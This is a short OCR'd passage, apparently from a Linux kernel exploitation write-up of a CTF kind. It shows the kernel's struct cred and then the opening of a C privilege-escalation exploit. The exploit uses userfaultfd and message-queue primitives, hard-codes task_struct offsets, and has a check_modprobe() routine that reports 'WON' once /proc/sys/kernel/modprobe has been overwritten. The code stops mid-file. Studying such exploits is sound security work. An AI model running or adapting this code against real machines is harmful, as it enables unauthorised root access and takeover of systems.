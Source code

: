 ```c
struct cred {
	atomic_long_t	usage;
	kuid_t		uid;		/* real UID of the task */
	kgid_t		gid;		/* real GID of the task */
	kuid_t		suid;		/* saved UID of the task */
	kgid_t		sgid;		/* saved GID of the task */
	kuid_t		euid;		/* effective UID of the task */
	kgid_t		egid;		/* effective GID of the task */
	kuid_t		fsuid;		/* UID for VFS ops */
	kgid_t		fsgid;		/* GID for VFS ops */
	
	...
	
	};
} __randomize_layout;
```

## Exploit

```c
#define _GNU_SOURCE
#define __USE_MISC

#include <stdio.h>
#include <stdlib.h>
#include <signal.h> 
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/syscall.h>
#include <assert.h>

#include <linux/userfaultfd.h>
#include <poll.h>
#include <pthread.h>
#include <poll.h>
#include <sys/mman.h>

#include <sys/timerfd.h>

#define TASKS_OFF 0x900
#define CRED_OFF 0xbe0
#define PID_OFF 0x9d0
#include <sys/ipc.h>
#include <sys/msg.h>

#include <sched.h>

int fd;

int check_modprobe() {
    char buf[0x50];
    FILE *fp = fopen("/proc/sys/kernel/modprobe", "r");
    fread(buf, 0x50, 1, fp);

    if (strcmp(buf, "/usr/sbin/modprobe\n") != 0) {
        puts("WON");
        puts(buf);
        return 1;
    }
    return 0;
```